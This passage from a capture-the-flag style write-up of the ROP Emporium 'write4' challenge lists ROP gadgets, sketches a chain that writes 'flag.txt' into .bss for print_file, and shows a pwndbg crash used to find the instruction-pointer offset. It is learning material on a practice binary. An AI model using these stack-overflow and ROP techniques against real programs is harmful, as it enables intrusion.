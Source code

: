 ```asm
0x0000000000400693: pop rdi; ret;
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret;
```
So, those are all the gadgets we needed. The idea here is to:

- **pop the `.bss` section into `r14`,**
- **pop the string `'flag.txt'` into `r15`,** then we
- **mov QWORD PTR [r14], r15** (so we move `'flag.txt'` into `.bss`),
- **pop `r15` into `.bss`,**
- and finally, **pop `rdi` into `.bss`** (which is where the string is located), and then pass it to the **`print_file`** function

f you want to learn more about how x64 assembly registers work, here is a good paper that explains them:
https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf
## Exploit

Before we procced to our attack we must find the offset to the instruction pointer (RIP) to be able to redirect program execution to wherever we want. 
For this we will use pwndbg and create some De Bruijn Sequences. De Bruijn Sequences just does the work much easier. 
More about it : https://ir0nstone.gitbook.io/notes/binexp/stack/de-bruijn-sequences

```asm
pwndbg> r
Starting program: /home/vein/sec/rop_emporium/write4/write4
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa
Thank you!

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7c00942 in pwnme () from ./libwrite4.so
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
 RAX  0xb
 RBX  0x7fffffffdc48 —▸ 0x7fffffffded0 ◂— '/home/vein/sec/rop_emporium/write4/write4'
 RCX  0x7ffff7b0fd90 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7ffff7bf3710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x7ffff7bf2643 (_IO_2_1_stdout_+131) ◂— 0xbf3710000000000a /* '\n' */
 R8   0x4006a0 (__libc_csu_fini) ◂— repz ret
 R9   0x7ffff7fcbe20 (_dl_fini) ◂— push rbp
 R10  0x7ffff7a25a00 ◂— 0x10001200001be4
 R11  0x202
 R12  0
 R13  0x7fffffffdc58 —▸ 0x7fffffffdefa ◂— 'SHELL=/bin/bash'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 R15  0
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdb28 ◂— 0x6161616161616166 ('faaaaaaa')
 RIP  0x7ffff7c00942 (pwnme+152) ◂— ret
─────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
 ► 0x7ffff7c00942 <pwnme+152>    ret                                <0x6161616161616166>
    ↓



──────────────────────────────────────────[ STACK ]───────────────────────────────────────────
```